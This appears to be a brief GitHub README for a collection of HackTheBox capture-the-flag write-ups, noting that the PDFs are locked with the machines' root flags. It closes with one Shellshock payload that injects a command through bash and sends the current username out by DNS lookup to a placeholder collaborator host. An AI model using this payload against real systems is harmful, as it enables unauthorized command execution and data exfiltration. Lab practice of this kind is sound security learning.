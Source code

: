 # hackthebox
writeups for the hackthebox challanges and machines
The pdf files are protected with the passwords unlock them by using passwords.
The password for the files is root flag   .


ShellShock Payload: () { :; }; /usr/bin/nslookup $(whoami).collaboratorurl
